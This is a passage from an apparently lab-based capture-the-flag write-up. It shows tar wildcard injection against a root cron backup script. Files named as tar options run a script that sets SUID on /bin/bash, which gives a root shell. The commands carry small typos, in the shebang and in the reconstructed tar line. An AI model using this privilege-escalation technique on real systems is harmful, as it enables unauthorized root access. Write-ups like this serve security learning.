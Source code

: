 After completing a google search on how to exploit a script utilizing tar with root privileges, it looks as though there is a 'wild card injection' exploit we can make use of to elevate privileges. 

As we already know that the script is using tar in the /var/www/html directory, this is where we can create some files and name them using the below mentioned commands which will execute with root privileges. 

`echo '#/!bin/bash\nchmod +s /bin/bash' > shell.sh` 
`echo "" > "--checkpoint-action=exec=sh shell.sh"`  
`echo "" > --checkpoint=1`

The whole thing ends up looking like this in the backend: 
`tar cf /home/milesdyson/backups/backup.tgz --checkpoint=1 --checkpoint=action=exec=sh shell.sh`

Once these files have been created and after waiting about a minute for the cron job to run, we can see that /bin/bash now has a SUID bit set which means we can execute it with root privileges and get the root shell.
`Command: /bin/bash -p`

![](Assets/Images/Pasted%20image%2020221205162008.png)

We can now easily get the root flag and answer our final question!

![](Assets/Images/Pasted%20image%2020221205162135.png)

##### Answer: <details><summary>Show Answer</summary></details>

## Conclusion
